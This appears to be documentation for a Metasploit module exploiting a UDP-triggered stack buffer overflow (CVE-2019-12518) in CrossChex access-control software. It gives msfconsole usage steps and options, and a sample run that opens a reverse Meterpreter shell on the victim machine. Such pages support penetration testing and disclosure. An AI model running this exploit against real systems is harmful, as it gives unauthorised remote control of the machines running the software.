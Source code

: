 ## Introduction

CrossChex is a personnel identity verification, access control, and time
attendance management system compatible with Windows 7,8 & 10. It uses
UDP broadcasts to identify and connect with Access Control devices on a
network. The code used to handle a response from an Access Control
device is vulnerable to a Stack Buffer Overflow attack on CrossChex
versions `Crosschex Standard x86 <= V4.3.12`. Tracked as CVE-2019-12518,
and as such permits arbitrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes
to be executed as a result of the exploit are sent in a single UDP
packet as a response to the CrossChex broadcast. As both the exploit and
the payload must be contained inside a single UDP packet, an exploit has
a maximum size of `8947 Characters`.

This module exploits CVE-2019-12518 by listening for a CrossChex "new
device" broadcast for a given number of seconds (`TIMEOUT`). It then
responds with a UDP packet containing shellcode for both the Buffer
Overflow exploit and the attacker's chosen payload. The `Space` payload
option ensures no payload of too large a size is used to ensure
successful exploitation. If a broadcast is not detected within the given
`TIMEOUT`, the module exits with a warning.

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options

As above.

## Scenarios

```
msf exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...
```

## References

1. <https://nvd.nist.gov/vuln/detail/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>

